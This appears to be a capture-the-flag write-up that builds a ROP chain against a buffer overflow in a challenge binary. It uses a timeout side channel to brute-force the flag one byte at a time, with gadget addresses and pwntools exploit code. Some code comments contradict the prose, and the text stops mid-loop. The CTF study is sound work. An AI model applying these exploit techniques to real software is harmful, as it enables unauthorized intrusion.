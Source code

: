 The whole process flow is almost the same as [how2know](/jHf3sAfOTveOIguRGXXmwQ). The difference is global variable turned into local variable and it has buffer overflow obviously. So, we can find various `ROP` and access into it and brute force to compare the single char of the flag.

#### Exploit - `ROP` + [how2know](/jHf3sAfOTveOIguRGXXmwQ)
1. Find `flag` address → <font color="FF0000">`0x4de2e0`</font>
    ```bash
    $ objdump -d -M Intel chal | grep "<flag>"
      401cfe:       48 8d 35 db c5 0d 00    lea    0xdc5db(%rip),%rsi        # 4de2e0 <flag>
    ```
2. Create `ROP` chain
    ```bash!
    $ ROPgadget --binary chal --multibr > rop_gadget
    $ vim rop_gadget
    ```
    ```python!
    pop_r14_ret = 0x402797
    mov_eax_dword_ptr_rax_ret = 0x4022ee
    cmp_al_r14b_ret = 0x438c15
    jne_0x426148_ret = 0x426159

    pop_rbx_ret = 0x401fa2
    jmp_rbx = 0x4176fd
    infinite_loop = p64(pop_rbx_ret) + p64(jmp_rbx) + p64(jmp_rbx)

    ROP = flat(
                pop_rax_ret, flag_addr+idx,
                mov_eax_dword_ptr_rax_ret,
                pop_r14_ret, guess,
                cmp_al_r14b_ret, 
                jne_0x426148_ret,
    )
    ROP += infinite_loop
    ```
    * Move the flag address to `$rax`, and move the flag string to `$eax` next
    * Then put our guess single char to `$r14`
    * Compare `$al` and `$r14b`
    * If correct, go into infinity loop, otherwise, jump to `0x426148`
3. **How to know the single char in pwntool side?**
When the comparison is correct, it'll access into infinity loop and `recv` function will receive something then break while loop and close the connection, otherwise, it'll jump to `0x426148` and trigger timeout exception.
    ```python!
    r.sendafter(b'rop\n',b'a'*0x28 + ROP)
    try :
        # If compare not correct, guess++ and access to infinity loop
        r.recv(timeout=0.5)
        break
    except:
        # If compare correct, pwntool will break out
        guess += 1
    r.close()
    ```
4. Repeat
    ```python!
    flag = ''
    idx = 0
    while idx < 48:
        guess = 0x20
        while guess < 0x80 :